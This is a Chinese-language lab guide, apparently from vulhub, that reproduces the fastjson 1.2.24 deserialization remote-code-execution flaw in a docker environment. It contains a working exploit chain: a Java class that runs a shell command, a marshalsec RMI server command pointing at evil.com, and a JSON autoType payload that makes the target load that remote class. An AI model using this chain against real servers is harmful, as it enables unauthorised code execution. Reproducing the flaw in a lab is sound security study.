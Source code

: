 # fastjson 1.2.24 反序列化导致任意命令执行漏洞



fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 漏洞环境



运行测试环境：

```
docker compose up -d
```



环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```



## 漏洞复现



因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```



然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```



向靶场服务器发送Payload，带上RMI的地址：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```



可见，命令`touch /tmp/success`已成功执行：

[![img](https://github.com/vulhub/vulhub/raw/master/fastjson/1.2.24-rce/1.png)](https://github.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/1.png)